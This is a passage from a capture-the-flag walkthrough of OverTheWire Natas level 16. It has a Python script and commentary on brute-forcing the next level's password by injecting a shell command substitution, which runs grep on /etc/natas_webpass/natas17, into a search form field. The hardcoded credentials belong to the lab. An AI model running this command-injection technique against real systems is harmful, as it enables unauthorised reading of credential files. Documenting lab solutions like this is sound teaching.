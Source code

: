     ## by looking at the passwords so far,
    ## it is likely that the password contains more lowercase characters
    ## followed by uppercase, and then numbers
    alphabet = ascii_lowercase + ascii_uppercase + '0123456789'

    auth = ('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

    url = 'http://natas16.natas.labs.overthewire.org'

    password = ''

    pattern = '^'

    directory = ' /etc/natas_webpass/natas17'
    ## the string to search for if there is no match in the password file
    constant = 'haystacks'

    ## check only for 32 characters because all the passwords so far have only 32 characters
    for i in range(32):
        for character in alphabet:
    	full_pattern = pattern + password + character
    	payload = "$(grep " + full_pattern + directory + ")" + constant
    	data = {"needle":payload}
    	response = requests.post(url, data=data, auth=auth)
    	
    	## because "haystacks" is appended to the end
    	## if there is no match, haystacks will be present in the result
    	if re.search("haystacks", response.text):
    		continue

    	password += character
    	print(f"Character { i } = { character }")
    	break

    print(f"The password for natas17 is { password }")
    ```

- With a total possibility space in the order $10^{57}$, this brute force approach can be computationally expensive, so the characters are checked in order of their frequencies, the most likely characters checked first. Of course, we have no definite way of knowing this but looking at the passwords so far, one can guess that there are more lowercase characters than uppercase characters which are then more than the numbers. This turned out to be a successful approach and resulted in significant improvements in speed.
- Furthermore, the word `haystacks` is appended at the end so that when the inner `grep` returns nothing (due to no match), the outer `grep` searches for `haystacks`. When the inner `grep` does return a result (the password), `haystacks` gets appended to it and does not return any result as no such entry would exist in the dictionary. Furthermore, the word `haystacks` has only one entry in the dictionary. And even this speeds up the search by narrowing the search space.
- The output of the above program is as follows:
